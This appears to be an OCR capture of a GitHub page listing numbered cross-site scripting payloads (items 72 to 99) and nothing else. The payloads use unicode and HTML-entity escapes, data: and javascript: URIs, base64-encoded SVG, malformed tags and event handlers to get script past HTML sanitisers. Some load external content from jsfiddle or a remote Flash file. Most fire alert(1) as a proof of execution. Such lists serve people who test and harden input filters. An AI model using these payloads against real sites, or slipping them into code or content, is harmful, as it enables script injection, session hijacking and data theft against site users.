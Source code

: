 72) <object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
 
73) <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
 
74) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
75) <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
 
76) <svg contentScriptType=text/vbs><script>MsgBox+1
 
77) <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
 
78) <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
 
79) <script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
 
80) <script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
 
81) <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script
 
82) <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
 
83) <script>+-+-1-+-+alert(1)</script>
 
84) <body/onload=&lt;!--&gt;&#10alert(1)>
 
85) <script itworksinallbrowsers>/*<script* */alert(1)</script
 
86) <img src ?itworksonchrome?\/onerror = alert(1)
 
87) <svg><script>//&NewLine;confirm(1);</script </svg>
 
88) <svg><script onlypossibleinopera:-)> alert(1)
 
89) <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
 
90) <script x> alert(1) </script 1=2
 
91) <div/onmouseover='alert(1)'> style="x:">
 
92)  <--`<img/src=` onerror=alert(1)> --!>
 
93) <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>
 
94) <div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>
 
95) "><img src=x onerror=window.open('https://www.google.com/');>
 
96) <form><button formaction=javascript&colon;alert(1)>CLICKME
 
97) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
98) <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>
 
99) <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
 